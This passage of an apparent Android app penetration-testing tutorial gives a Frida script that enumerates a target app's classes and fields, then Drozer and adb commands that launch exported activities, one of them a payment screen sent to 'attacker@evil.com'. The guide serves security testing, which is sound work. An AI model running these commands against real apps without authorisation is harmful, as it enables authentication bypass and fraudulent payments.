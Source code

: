 ```javascript
// dump-memory.js
Java.perform(function() {
    console.log("[*] Dumping memory strings");
    
    Java.enumerateLoadedClasses({
        onMatch: function(className) {
            if (className.indexOf('com.example.targetapp') !== -1) {
                console.log("[+] Found class: " + className);
                
                try {
                    var cls = Java.use(className);
                    var fields = cls.class.getDeclaredFields();
                    
                    fields.forEach(function(field) {
                        field.setAccessible(true);
                        console.log("  Field: " + field.getName());
                    });
                } catch(e) {
                    // Ignore errors
                }
            }
        },
        onComplete: function() {
            console.log("[*] Enumeration complete");
        }
    });
});
```

```bash
frida -U com.example.targetapp -l dump-memory.js
```

---

**Step 6: Test Exported Components**

**List Exported Activities:**
```bash
# Get all exported components
adb shell dumpsys package com.example.targetapp | grep -A 5 "Activity"

# Or use Drozer
drozer console connect
dz> run app.package.attacksurface com.example.targetapp
```

**Test Activity Launch:**
```bash
# Try launching exported activities directly
adb shell am start -n com.example.targetapp/.AdminActivity

# Expected: Activity should launch without authentication (vulnerability)

# Test with data
adb shell am start -n com.example.targetapp/.PaymentActivity \
  --es "amount" "1" \
  --es "recipient" "attacker@evil.com"
```
